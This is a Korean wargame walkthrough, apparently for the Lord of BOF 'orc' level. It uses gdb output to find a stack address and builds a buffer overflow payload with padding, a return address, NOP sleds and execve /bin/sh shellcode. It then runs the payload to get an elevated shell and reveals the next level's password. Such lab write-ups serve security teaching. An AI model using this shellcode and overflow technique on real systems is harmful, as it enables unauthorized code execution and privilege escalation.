 ``` bash2
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x0	0
cwd            0xffff037f	-64641
swd            0xffff0000	-65536
twd            0x0	0
fip            0x401e0178	1075708280
fcs            0x0	0
fopo           0x401f1648	1075779144
fos            0x0	0
(gdb) x/wx $esp
0xbffff93c:	0xbfbfbfbf
(gdb)
0xbffff940:	0x43434343
```

argv[1]에 473바이트를 넣으면 쉘코드의 시작 주소가 0xbffff940 임을 알 수 있다.
이를 통해 익스플로잇을 다음과 같이 작성할 수 있다.

"A"*44 (dummy byte)
+"\x40\xf9\xff\xbf" (shellcode addr)
+"\x90"*200 (Nop Sled)
+"\x90"*200+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" (shellcode)
+"\x90"*200 (Nop Sled)

``` bash2
[goblin@localhost goblin]$ ~/orc `python -c 'print "A"*44+"\x40\xf9\xff\xbf"+"\x90"*200+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"+"\x90"*200'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@?퓧???????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????1픐h//shh/bin??S??柰
?????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????
bash$ id
uid=503(goblin) gid=503(goblin) euid=504(orc) egid=504(orc) groups=503(goblin)
bash$ my-pass
euid = 504
cantata
```

# orc

password is cantata

### Problem
